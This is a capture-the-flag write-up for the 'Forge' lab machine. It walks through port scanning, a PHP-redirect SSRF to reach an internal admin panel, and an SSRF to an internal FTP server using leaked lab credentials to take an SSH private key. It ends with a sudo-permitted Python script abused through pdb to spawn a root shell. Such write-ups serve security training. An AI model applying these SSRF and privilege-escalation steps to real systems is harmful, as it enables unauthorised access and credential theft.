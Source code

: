 # Forge

Forge is a medium Linux machine released on 11/09/2021.

**Note**: this write-up is quite short and concise as it's based on really brief notes that were taken just for convenience during the pwning of the machine. 

## Enumeration

As usual we start by performing a port scan with nmap

```
nmap -A 10.10.11.111 -p- | tee portscan.txt

Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-16 08:00 EST
Nmap scan report for forge.htb (10.10.11.111)
Host is up (0.065s latency).
Not shown: 65532 closed ports
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Gallery
Service Info: Host: 10.10.11.111; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.67 seconds
```

The web server has an upload seciton where you can upload images, but you can actually upload any kind of file.
Uploading a PHP web shell does not work since the server tries to show the php file as an image.


We try enumerating virtual hosts with gobuster

`gobuster vhost -u http://forge.htb -w <wordlist>`

and we find out that admin.forge.htb returns a 200

We add admin.forge.htb to our /etc/hosts and we try to access the page from the browser.
It returns 'Only localhost is allowed!".

## Foothold

The upload page also accepts URLs, so there seems to be room for a SSRF (Server Side Request **Forgery** (mind the name of the machine!))

We setup a php web server in our machine, with the following index.php file

```php
<?php

	header("location: http://admin.forge.htb");
?>
```

and in the upload file of the site we just write

http://\<our IP\>


Now, when the server tries to fetch the image from the link we have passed, it will be redirected to "admin.forge.htb"
and will actually upload to the 'uploads' directory the web page we cannot access directly. 

We get the admin portal and it contains an href to the /announcements page

We modify the location header in our PHP file and we perform another SSRF.

The announcements page contains credentials for the ftp server:
`user:heightofsecurity123!`

It also contains some useful information:


```
- An internal ftp server has been setup with credentials as user:heightofsecurity123!
- The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.
- The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=<url>.
```

We still cannot access the ftp server on the machine since the portscan showed us that port 21 is filtered (i.e. only accessible
locally). We still have to perform SSRFs


You can access an FTP server via URL by specifying the ftp:// protocol.
You can also use credentials by specifying the url in the following form:

ftp://username:password@ftp.xyz.com


Therefore we change our location header in the PHP file as follows:

```php
header("location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@localhost/");
```

and now we can access all the files in the user home directory.

First thing first we retrieve the flag. Then there is a 'snap' folder but nothing useful seems to be inside it.

We check if there is a .ssh folder in the home directory, and in fact there is, so we copy the private key from .ssh/id_rsa
and now we can ssh into the machine as 'user'.

We now have a shell on the machine. The shell sucks but whatever.

## Privesc

Let's run `sudo -l` to see if we can run commands with root privilege.

```
User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```    
Good, let's take a look at the remote-manage.py script.

It starts listening for connections from localhost and then executes some system commands with `subprocess` depending on what the user asks.

Commands are called without absolute path, so one could think to exploit the `PATH` env variable and make the script execute what they want.

I could not do this, probably because of some security measures implemented on sudo.

The way to root is actually much easier:

connecting and sending an empty string, will throw an exception and the script will fall back to `pdb` (python debugger) in post-mortem mode.

From here, we can simply spawn a root shell with

```py
import pty
pty.spawn("/bin/bash")
```